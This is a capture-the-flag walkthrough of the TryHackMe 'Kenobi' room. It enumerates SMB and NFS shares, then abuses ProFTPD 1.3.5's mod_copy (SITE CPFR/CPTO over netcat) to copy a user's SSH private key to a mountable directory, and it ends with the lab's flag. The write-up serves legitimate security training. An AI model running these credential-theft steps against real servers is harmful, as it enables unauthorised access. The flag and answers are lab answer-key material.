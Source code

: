 # Kenobi Wlakthrough
### Link
- https://tryhackme.com/room/kenobi
------------------------
### Task1 -  Deploy the vulnerable machine
- Scan the machine with nmap, how many ports are open?
    - sudo nmap -sV -sC -oN ./nmap_kenobi_result.txt [IP]
    - **Answer** : 7
    - pictures:<br>
                [Kenobi_1.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_1.png)<br>
                [Kenobi_2.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_2.png)
------------------------
### Task 2 - Enumerating Samba for shares
- Using the nmap command above, how many shares have been found?
    - nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [IP]
    - **Answer** : 3
    - pictures:<br>
                [Kenobi_3.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_3.png)
- Check Enonymous share
    - smbclient //[IP]/anonymous
    - Try without password
    - Once you're connected, list the files on the share. What is the file can you see?
    - **Answer** : log.txt
    - picture: [Kenobi_4.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_4.png)
- Download the file **log.txt**. We can use SMB to do this action (recursive)
    - smbget -R smb://[IP]/anonymous
    - picture: [Kenobi_5.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_5.png)
-  Port 111 is access to a network file system.
    - nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP
    - What mount can we see?
    - **Answer** : /var
    - picture: [Kenobi_6.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_6.png)
------------------------
### Task 3 - Gain initial access with ProFtpd
- What is the version?
    - Check the initial nmap scan.
    - **Answer** : 1.3.5
    - picture: [Kenobi_1.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_1.png)
- How many exploits are there for the ProFTPd running?
    - We can use searchsploit to find exploits for this particular version.
    - **Answer** : 3
    - picture: [Kenobi_8.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_8.png)
- One exploit is related to "mod copy". Check this link to understand more about [mod copy](http://www.proftpd.org/docs/contrib/mod_copy.html)
    - Connect to the machine by using **mod copy**
        - sudo nc [IP] [port]
        - SITE CPFR /home/kenobi/.ssh/id_rsa --> Copy the private key
        - SITE CPTO /var/tmp/id_rsa --> Paste to /var/tmp because var directory is reachable with Anonymous
        - picture: [Kenobi_9.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_9.png)
    - From the local machine
        - mkdir /mnt/kenobiNFS
        - mount machine_ip:/var /mnt/kenobiNFS
        - ls -la /mnt/kenobiNFS
        - We can see all directories & files under /var
        - - picture: [Kenobi_10.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_10.png) 
    - Last steps :
        - Copy the private key and log to the machine through SSH with kenobi as username
        - Open /home/kenobi/user.txt
    - **Answer** : d0b0f3f53b6caa532a83915e19224899